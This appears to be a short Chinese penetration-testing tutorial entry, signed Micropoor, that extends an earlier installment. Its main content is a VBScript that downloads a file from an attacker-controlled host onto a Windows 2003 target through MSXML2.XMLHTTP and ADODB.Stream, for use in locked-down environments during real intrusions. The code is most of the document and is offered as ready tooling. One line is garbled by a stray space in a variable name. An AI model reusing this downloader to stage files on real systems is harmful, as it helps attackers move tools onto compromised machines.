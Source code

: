 在实战中，会碰到许多让人敬畏的环境，也许无法执行，或者无法把下载参数带入其中，故补充第七季 vbs 参数化的下载。

**靶机：**windows 2003  
![](/img/130baad813eacf09b1932ecb7e5d4279.jpg)

![](/img/d434ad0c2a6c5f531e908fedca5f2044.jpg)

### 附：源码如下：
```visual-basic
strFileURL = "http://192.168.1.115/robots.txt"
strHDLocation = "c:\\test\\logo.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocati on
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
>   Micropoor
